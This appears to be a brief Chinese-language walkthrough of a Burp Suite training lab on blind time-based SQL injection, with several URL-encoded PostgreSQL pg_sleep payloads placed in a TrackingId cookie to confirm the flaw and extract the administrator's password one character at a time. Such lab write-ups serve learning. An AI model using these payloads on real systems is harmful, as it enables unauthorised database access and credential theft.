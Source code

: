 BurpSuite的lab质量真的挺不错，顺带还有YouTube的视频可以教我BP的功能，目前感觉BP应该会陪伴自己很长的一段时间

SQL注入也可以配合SQLmap开扫，虽然工具的效果一般还慢

注入点在登录的界面，登录界面bp抓包注意到有一个cookie

```shell
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;
```

然后这里是cookie注入，至于为什么是POSTGRESQL，我也不知道呀

然后尝试注入点

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

```

发现有延时，于是确定注入

然后开始逐步确定

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```

开始确定密码的位数

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

然后即可用bp爆破获得密码（这里也可以用python),竟然还看到用shell脚本的一位勇士

然后即可注出结果